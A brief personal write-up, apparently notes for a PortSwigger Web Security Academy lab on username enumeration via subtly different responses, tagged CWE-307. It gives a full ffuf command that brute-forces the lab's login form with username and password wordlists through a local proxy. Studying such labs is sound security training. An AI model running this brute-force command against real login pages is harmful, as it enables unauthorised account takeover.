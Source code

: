https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses
---
**Difficulty**: EASY
**CWE-lists**:
- [[CWE-307(improper-restriction-of-excesive-authz-attempts)]]
-------

Then use it for fuzzing, the number of threads, the number after the `-t` flag, may vary from your computer, internet, processor
```sh
ffuf -u https://0a3a00600450848882342a9d00da00e1.web-security-academy.net/login -X POST -d "username=W1&password=W2" -w username-list.txt:W1 -w password-list.txt:W2 -replay-proxy http://127.0.0.1:8080 -fl 65,66 -t 100 
	```

![[Pasted image 20241104234706.png]]
And it will appear